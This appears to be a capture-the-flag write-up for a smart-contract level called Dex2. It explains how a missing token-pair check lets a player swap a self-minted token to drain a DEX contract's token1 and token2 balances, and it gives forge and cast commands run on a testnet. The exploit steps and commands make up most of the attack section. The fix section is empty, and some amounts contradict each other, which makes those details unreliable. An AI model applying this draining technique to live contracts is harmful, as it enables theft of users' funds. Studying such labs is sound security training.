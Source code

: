 # Dex2

This level requires you to exploit the DexTwo contract, a subtly modified version of the previous Dex contract, in a different manner. Your goal is to drain all balances of token1 and token2 from the DexTwo contract to complete the level.

You begin with 10 tokens each of token1 and token2 and DexTwo contract initially holds 100 tokens each of token1 and token2.

## Vulnerability

We will notice a missing line:

```bash
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

This line is responsible for validating that swapping is only allowed between the two token addresses defined by the contract. Since this requirement is absent in `DexTwo`, we are allowed to swap any tokens, including ones we create. This is the key to draining the`DexTwo` contract.

## Attack

| Dex Two |      |      |Player|      |      |
|---------|------|------|------|------|------|
| token1  |token2|  BTN |token1|token2|  BTN |
| 100     |  100 |  100 |   10 |   10 |  300 |
| 0       |  100 |  200 |  110 |   10 |  200 | swap(token1, BTN)
| 0       |    0 |  300 |  110 |  110 |  0   | swap(token2, BTN)

```bash
function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}

# It calculates the amount of token2 that will be returned when x amount of BTN is swapped. The formula is rearranged to solve for x, which gives x = 200 BTN. This means that to get all 100 token2 from the Dex, 200 BTN need to be swapped.
# 100 = (x * 100)/200 (200 tokens were minted by the contract)
```

According to the formula in `get_swap_amount()`, to get all the token2 from the Dex2, we need `100 = (x * 100)/200 - x = 200 BTN`. Therefore, we need to swap 200 BTN to get 100 token2. Once this is done, here's how the final balance table will look:

1. Deploy `DeployDex2Attack.sol`.

```bash
forge script script/DeployDex2AttackToken.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

# https://sepolia.etherscan.io/address/0xE3B0bd9d2bd8E3B189E76eFcB6B8598B8d9495Ed

# At $CONTRACT_ADDRESS=0xE3B0bd9d2bd8E3B189E76eFcB6B8598B8d9495Ed
# balanceOf 0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2 = 300
```

2. Send 100 BTN from `Dex2AttackToken` to `Dex2`.

```bash
cast send $CONTRACT_ADDRESS "transfer(address,uint256)" $DEX2_ADDRESS 300 --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --legacy

# https://sepolia.etherscan.io/tx/0x74dc9b1123d966fd2e41651ff32bb91375b20b4d83d2732457971004b0c446ac

# At $CONTRACT_ADDRESS=0xE3B0bd9d2bd8E3B189E76eFcB6B8598B8d9495Ed
# balanceOf 0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2 = 0

# At $DEX2_ADDRESS=0x97e3Bc8E0A6f8550ea7BECcE9aC618f5a438C5F9
# balanceOF
# token address (BTN): 0xE3B0bd9d2bd8E3B189E76eFcB6B8598B8d9495Ed
# Dex2 contract address (DEX2_ADDRESS) : 0x97e3Bc8E0A6f8550ea7BECcE9aC618f5a438C5F9
# equals 300
```

3. Approve `Dex2 address` to spend 300 BTN and enable it to perform the swap later.

```bash
cast send $CONTRACT_ADDRESS "approve(address,uint256)" $DEX2_ADDRESS 300 --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy

# https://sepolia.etherscan.io/tx/0x9dc038eea6c20bf9ae126fb394bebf8c19180aab05152add84124babe09f5a96
```

4. Execute the swap of both tokens.

```bash
forge script script/DeployDex2AttackSwap.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

# At $DEX2_ADDRESS=0x97e3Bc8E0A6f8550ea7BECcE9aC618f5a438C5F9
# balanceOF
# token address (BTN): 0xE3B0bd9d2bd8E3B189E76eFcB6B8598B8d9495Ed
# Dex2 contract address (DEX2_ADDRESS) : 0x97e3Bc8E0A6f8550ea7BECcE9aC618f5a438C5F9
# equals 300
```

## Fix
